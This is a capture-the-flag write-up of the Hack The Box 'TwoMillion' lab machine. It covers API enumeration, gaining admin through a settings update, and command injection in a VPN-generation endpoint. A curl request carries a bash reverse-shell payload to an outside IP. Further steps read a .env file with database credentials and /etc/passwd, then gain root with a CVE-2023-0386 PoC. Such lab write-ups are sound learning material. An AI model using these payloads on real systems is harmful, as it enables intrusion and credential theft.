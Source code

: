  </br>[![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&size=35&pause=1000&color=6A0DAD&width=435&lines=TwoMillion)](https://git.io/typing-svg)
</br>
<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic1.png" alt="Alt Text">
</a>
</br>
</br>
</br>

## Nmap-scan
</br>

First, let's initiate a quick scan utilizing nmap.


<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic2.png" alt="Alt Text">
</a>
</br>

We need to include "2million.htb" in our /etc/hosts file

```bash
echo "10.10.11.221 2million.htb" >> /etc/hosts
```

</br>

## Trying to have access

Upon visiting the website, I discovered it's an outdated version of the HackTheBox platform. To gain access, I attempted to log in using the default credentials, but unfortunately, I received an error message indicating that the user not found.
<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic3.png" alt="Alt Text">
</a>
</br>
While exploring the website, I discovered that I can join the platform by obtaining an invite code.
</br>

`http://2million.htb/invite`

</br>
I came across a JavaScript code that contains some intriguing elements. 
</br>

`/js/inviteapi.min.js`

<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic4.png" alt="Alt Text">
</a>

</br>
I am interested in generating my own invite code as well.
</br>
I will examine the endpoint "/api/v1/invite/how/to/generate" to gather more information.
</br>


<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic6.png" alt="Alt Text">
</a>
</br>

After decoding the ROT13 cipher, we discovered the method to generate our own invite code.


</br>
<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic7.png" alt="Alt Text">
</a>

Let's proceed with generating our invite code using the discovered method

</br>
<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic5.png" alt="Alt Text">
</a>
</br>
Since the invite is encoded using base64, it should be easy to obtain one.

</br>

```bash
curl -s -X POST http://2million.htb/api/v1/invite/generate | jq .data.code -r |base64 -d
```

## Gain administrative

</br>

Upon logging in with the provided invite code, I have started exploring additional API resources to discover more useful functionalities.
Fortunately, I have come across some intriguing findings that piqued my interest. "/api/v1"


```bash
curl -s http://2million.htb/api/v1 -H "Cookie: PHPSESSID=b0akpjn8hlj8h2085dv674tgkv" |jq .
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}

```

</br>

I will attempt to update my settings

</br>

```json
"PUT": {
         "/api/v1/admin/settings/update": "Update user settings"
      }
```

</br>

<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic8.png" alt="Alt Text">
</a>


Great!

## Having a RCE

Now that we have administrative access, we can examine :

```json
 "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
```

It seems that after spending some time searching, I have discovered a Remote Code Execution (RCE) vulnerability in the username parameter. This is a significant finding as it allows you to inject commands and potentially gain unauthorized access.

`/api/v1/admin/vpn/generate`


<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic9.png" alt="Alt Text">
</a>

Now that we have identified the Remote Code Execution (RCE) vulnerability, we can exploit it 

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate -H "Cookie: PHPSESSID=b99sapscujo3dg9l7c454tt4fm" -H "Content-Type: application/json" -d '{"username":"$(bash -c 'bash -i >& /dev/tcp/10.10.10.10/9001 0>&1')"}'
```

Congratulations! HAHA

## Privilege 

After logging in, I discovered an interesting file named ".env".

 ```bash
 
 ls -la
total 56
drwxr-xr-x 10 root root 4096 Jun  8 21:40 .
drwxr-xr-x  3 root root 4096 Jun  6 10:22 ..
-rw-r--r--  1 root root   87 Jun  2 18:56 .env
-rw-r--r--  1 root root 1237 Jun  2 16:15 Database.php
-rw-r--r--  1 root root 2787 Jun  2 16:15 Router.php
drwxr-xr-x  5 root root 4096 Jun  8 21:40 VPN
drwxr-xr-x  2 root root 4096 Jun  6 10:22 assets
drwxr-xr-x  2 root root 4096 Jun  6 10:22 controllers
drwxr-xr-x  5 root root 4096 Jun  6 10:22 css
drwxr-xr-x  2 root root 4096 Jun  6 10:22 fonts
drwxr-xr-x  2 root root 4096 Jun  6 10:22 images
-rw-r--r--  1 root root 2692 Jun  2 18:57 index.php
drwxr-xr-x  3 root root 4096 Jun  6 10:22 js
drwxr-xr-x  2 root root 4096 Jun  6 10:22 views
```
```bash
cat .env 
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=S************3
```

Upon inspecting the ".env" file, I found that it contains admin credentials

```bash

cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
admin:x:1000:1000::/home/admin:/bin/bash
```


`admin is an user`

I will attempt to switch to the "admin" user by using the provided pass

we have gained access 'YoHOO'

While conducting further research, you came across some intriguing findings indicating the presence of a potential CVE

```bash
admin@2million:/var/www/html$ find / -perm -u=s -type f 2>/dev/null |grep "tmp"
/tmp/cve/ovlcap/upper/file
/tmp/.troll80lvl/CVE-2023-0386/ovlcap/upper/file
/tmp/CVE-2023-0386-main/ovlcap/lower/file
/tmp/CVE-2023-0386-main/ovlcap/upper/file
```


CVE-2023-0386  POC: 
[Link to CVE-2023-0386 Repository](https://github.com/xkaneiki/CVE-2023-0386)

By following the POC, I have acquired the ability to escalate the privileges to the root user level.

```bash
root@2million:/var/www/html# whoami
root
root@2million:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)
```
